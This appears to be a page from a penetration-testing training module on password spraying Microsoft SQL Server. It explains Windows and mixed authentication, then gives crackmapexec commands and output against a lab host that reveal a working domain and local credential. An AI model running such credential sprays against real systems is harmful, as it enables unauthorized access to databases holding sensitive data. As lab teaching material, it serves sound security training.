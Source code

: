 ***

## MSSQL - Password Spray

[Microsoft SQL Server (MSSQL)](https://www.microsoft.com/en-us/sql-server/sql-server-2019) is a relational database management system that stores data in tables, columns, and rows. Databases hosts are considered to be high targets since they are responsible for storing all kinds of sensitive data, including, but not limited to, user credentials, Personal Identifiable Information (PII), business-related data, and payment information.

## MSSQL Authentication Mechanisms

`MSSQL` supports two [authentication modes](https://docs.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server), which means that users can be created in Windows or the SQL Server:

<table data-header-hidden><thead><tr><th width="204.90911865234375"></th><th></th></tr></thead><tbody><tr><td><strong>Authentication Type</strong></td><td><strong>Description</strong></td></tr><tr><td><code>Windows authentication mode</code></td><td>This is the default, often referred to as <code>integrated</code> security, because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.</td></tr><tr><td><code>Mixed mode</code></td><td>Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.</td></tr></tbody></table>

This means that we can have three types of users to authenticate to `MSSQL`:

1. Active Directory Account.
2. Local Windows Account.
3. SQL Account.

For an Active Directory account, we need to specify the domain name:

### **Password Spray - Active Directory Account**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u julio grace jorge -p Inlanefreight01! -d inlanefreight.htb

MSSQL       10.129.203.121  1433   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:inlanefreight.htb)
MSSQL       10.129.203.121  1433   DC01             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
MSSQL       10.129.203.121  1433   DC01             [+] inlanefreight.htb\grace:Inlanefreight01!
```

For a local Windows Account, we need to specify a dot (.) as the domain option `-d` or the target machine name:

### **Password Spray - Local Windows Account**

```shell-session
$ crackmapexec mssql 10.129.203.121 -u julio grace -p Inlanefreight01! -d .

MSSQL       10.129.203.121  1433   None             [*] None (name:10.129.203.121) (domain:.)
MSSQL       10.129.203.121  1433   None             [-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.
MSSQL       10.129.203.121  1433   None             [+] .\grace:Inlanefreight01!
```
